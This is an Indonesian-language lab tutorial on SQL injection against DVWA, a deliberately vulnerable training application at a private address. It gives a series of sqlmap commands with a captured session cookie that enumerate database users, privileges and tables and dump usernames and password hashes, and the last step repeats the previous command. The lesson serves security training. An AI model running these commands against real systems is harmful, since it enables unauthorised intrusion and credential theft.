# DVWA | Lesson 4
## Konfigurasi

Alamat target DVWA `http://10.151.34.170`

## Skenario
Login ke DVWA
Masuk ke menu SQL Injection

- Buka Tamper Data pada menu Tools, kemudian pilih `Start Tamper`.



- Pada form SQL Injection, masukkan string 1.

  Setelah itu, akan muncul pop up `Tamper with Request?`. Uncheck dan pilih Submit.



- Copy Header `Referrer` dan `Cookie`.



- Dan paste pada gedit.



- Setelah itu jalan script dibawah, gunakan session ID yang sudah didapat dari hasil Tamper.
  Command tersebut digunakan untuk mendapatkan database dan user yang digunakan pada web.


  Maka akan didapat current user `root@%` dan database `dvwa`.


- Selanjutnya jalankan script berikut untuk mendapatkan Database Management User dan user yang tersedia beserta passwordnya
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" --string="Surname" --users --password
  ```

- Selanjutnya jalankan script berikut untuk mendapatkan privileges dari user `db_hacker` yang telah dibuat pada lesson sebelumnya.
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" -U db_hacker --privileges
  ```


- Selanjutnya jalankan script berikut untuk mendapatkan semua database yang terdapat pada host DVWA.
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" --dbs
  ```


- Selanjutnya jalankan script berikut untuk mendapatkan nama-nama table pada database `dvwa`
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" -D dvwa --tables
  ```

- Selanjutnya jalankan script berikut untuk mendapatkan column beserta tipe data dari database `dvwa` table `users`.
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" -D dvwa -T users --columns
  ```



- Selanjutnya jalankan script berikut untuk mendapatkan username beserta password dari semua user yang terdapat pada table `users`.
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" -D dvwa -T users -C user,password --dump
  ```


- Selanjutnya jalankan script berikut untuk mendapatkan username beserta password dari semua user yang terdapat pada table `users`. Data dump dari table `users` secara otomatis tersimpan pada file `users.csv`.
  ```
  ./sqlmap.py -u "http://10.151.34.170/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=ee2f320b543b3fa85497e6b387c1cfb; security=low" -D dvwa -T users -C user,password --dump
  ```

## Hasil

